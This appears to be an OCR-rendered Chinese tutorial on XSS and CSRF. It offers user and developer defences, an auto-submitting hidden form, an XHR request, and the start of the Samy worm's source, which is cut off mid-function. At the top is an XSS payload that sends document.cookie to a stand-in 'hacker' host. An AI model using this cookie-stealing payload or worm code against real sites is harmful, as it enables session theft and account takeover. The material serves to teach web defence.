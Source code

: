 ```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
在用户的层面上：

> 1.  点击链接发送电子邮件或即时消息时一定要谨慎。可疑的过长链接，尤其是那些看起来像是包含 HTML 代码 的链接。如果有疑问，手动输入网址到您的浏览器地址栏进行访问。
> 2.  对于 XSS 漏洞，没有网络浏览器有一个明显的安全优势。话虽如此，但作者喜欢 Firefox 浏览器。为了获得 额外的安全性，可以考虑安装一些浏览器插件，如 NoScript25（Firefox 扩展插件）或 Netcraft 工具栏 26。
> 3.  虽然不是 100％有效，但是避开可疑网站，如那些提供黑客自动化工具，warez，或色情的网站是明智的。

在开发者的角度上说：

*   在敏感操作的时候需要进行验证码请求，避免直接使用反射型的XSS进行请求
*   提交内容进行严格过滤

书中的附录
-----

    <FORM ACTION=”http://server/path/” NAME=”myform” METHOD=”POST”>
    <INPUT TYPE=”HIDDEN” NAME=”Username” VALUE=”Foo”>
    <INPUT TYPE=”HIDDEN” NAME=”Password” VALUE=”Bar”>
    </FORM>

这里构建的一个表单，一样可以使用 JS 进行提交

    <SCRIPT language=”JavaScript”> document.myform.submit();
    </SCRIPT>

* * *

通过 XHR 进行模拟请求：

    var req = new XMLHttpRequest();
    req.open(‘GET’, ‘http://server/path)/’, true);
    req.onreadystatechange = function () {
        if (req.readyState == 4) {
            alert(req.responseText);
        }
    };
    req.send(null);

Samy 蠕虫的源码 以及 个人的解读
-------------------

    <div id=mycode style=”BACKGROUND: url('javascript:eval(document.all.mycode.expr)')” expr=”
    var B = String.fromCharCode(34);
    var A = String.fromCharCode(39);
    function g() {
        var C;
        try {
            var D = document.body.createTextRange(); C = D.htmlText
        } catch (e) {}
        if (C) {
            return C
        } else {
            return eval('document.body.innerHTML')
        }
    }
    function getFromURL(BF, BG) {
        var T;
        if (BG == 'Mytoken') {
            T = B
        } else {
            T = ' & '
        }
        var U = BG + ' = ';
```